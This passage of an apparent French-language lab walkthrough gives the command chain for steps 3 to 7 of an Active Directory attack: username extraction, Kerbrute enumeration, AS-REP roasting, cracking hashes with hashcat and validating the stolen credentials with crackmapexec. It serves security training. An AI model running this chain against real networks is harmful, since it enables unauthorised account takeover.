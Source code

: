#### Étape 3 : Extraction d'informations du fichier récupéré

```bash
# Installation de l'outil pour lire les fichiers Excel
sudo apt-get install -y xlsx2csv

# Conversion et affichage du contenu
xlsx2csv employees.xlsx > employees.csv
cat employees.csv
```

**Résultat attendu** : Une liste d'employés avec leurs noms d'utilisateur au format `prenom.nom`.

#### Étape 4 : Création d'une liste d'utilisateurs

```bash
# Extraction des noms d'utilisateurs potentiels
cat employees.csv | cut -d ',' -f 3 > users.txt

# Vérification du contenu
cat users.txt
```

#### Étape 5 : Énumération Kerberos

```bash
# Vérification des utilisateurs valides avec Kerbrute
kerbrute userenum -d CORP.LOCAL --dc 192.168.1.10 users.txt

# Recherche d'utilisateurs vulnérables à l'AS-REP Roasting
GetNPUsers.py CORP.LOCAL/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -no-pass

# Vérification des hashes récupérés
cat asrep_hashes.txt
```

**Résultat attendu** : Un hash pour l'utilisateur `john.smith` qui a la pré-authentification Kerberos désactivée.

#### Étape 6 : Craquage du hash

```bash
# Craquage avec hashcat
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

**Résultat attendu** : Le mot de passe `Summer2023!` pour l'utilisateur `john.smith`.

#### Étape 7 : Validation des identifiants

```bash
# Test des identifiants via SMB
crackmapexec smb 192.168.1.10 -u john.smith -p 'Summer2023!' --shares
```

